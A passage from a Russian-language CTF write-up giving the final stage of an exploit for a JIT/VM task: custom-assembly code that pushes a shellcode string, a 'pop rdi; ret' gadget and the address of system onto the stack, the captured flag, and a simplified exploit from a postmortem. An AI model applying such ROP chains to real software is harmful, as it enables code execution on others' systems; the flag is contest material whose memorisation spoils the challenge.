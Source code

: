 Придётся делать `push` дважды. Таким образом, последний блок эксплоита заменяется на:

```asm
// Кладём на стек подряд шелл-код, адрес pop rdi; ret, адрес шелл-кода, адрес ret и адрес system
pop d
pop d
pop d
pop d
pop d
mov d 103
push d
mov d 7020098271757754723
push d
mov d c
add d 1
push b
push d
push a
push c
```

Флаг: **ugra_friendly_reminder_that_web_browsers_use_jit_too_mb138bt6eu22**


## Постмортем

Ближе к концу соревнования, когда задание так и не было решено участниками, мы упростили задачу, заменив динамическую линковку на статическую с фиксированными адресами. Это значит, что не нужно было вычислять адреса чего-либо, кроме стека, и эксплоит можно было сильно упростить:

```asm
pop a
sub a 432

pop d
pop d
pop d
pop d
pop d
pop d
pop d
pop d
pop d
pop d
pop d

mov d 13264972891059052
push d
push 4246144
push 4202044
push a
push 4202043
```
